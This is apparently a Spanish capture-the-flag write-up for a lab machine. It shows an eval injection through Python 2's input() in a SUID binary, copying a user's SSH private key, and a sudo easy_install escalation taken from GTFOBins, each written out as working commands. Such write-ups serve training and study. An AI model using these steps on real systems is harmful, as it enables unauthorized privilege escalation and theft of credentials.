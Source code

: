 # Part 5: Explotando python2

- SUIDs -> /home/developer/dev/siteisup
```console
www-data@updown:/tmp$ strings /home/developer/dev/siteisup
/usr/bin/python /home/developer/dev/siteisup_test.py
```
En el directorio home de developer estan estos dos archivos, tanto el binario siteisup como el test.py
```python
www-data@updown:/tmp$ cat /home/developer/dev/siteisup_test.py
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
	print "Website is up"
else:
	print "Website is down"
```
Es un python2 porque al print no lo pone entre parentesis sino con un espacio.
```console
www-data@updown:/home/developer/dev$ ./siteisup         
Welcome to 'siteisup.htb' application
Enter URL here:__import__('os').system("bash")
developer@updown:/home/developer/dev$ 
```
Esta vulnerabilidad se acontece porque python2 cuando ejecuta input, le pasa su contenido a la funcion eval() que sirve
para ejecutar codigo.
Seguimos sin poder leer la user flag, asi que nos metemos al directorio .ssh de developer y copiamos la id_rsa
```console
developer@updown:/home/developer/.ssh$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmvB40TWM8eu0n6FOzixTA1pQ39SpwYyrYCjKrDtp8g5E05...
└─$ vim id_rsa
└─$ chmod 600 id_rsa
└─$ ssh -i id_rsa developer@10.10.11.177   
developer@updown:~$ 
```
------------------------------------------------
# Part 6: Gtfobins

Nuestro usuario tiene como sudoers -> (ALL) NOPASSWD: /usr/local/bin/easy_install
En [gtfobins](https://gtfobins.github.io/gtfobins/easy_install/#sudo) nos dicen como explotar esto:

```console
developer@updown:$ TF=$(mktemp -d)
developer@updown:$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:$ sudo easy_install $TF
```

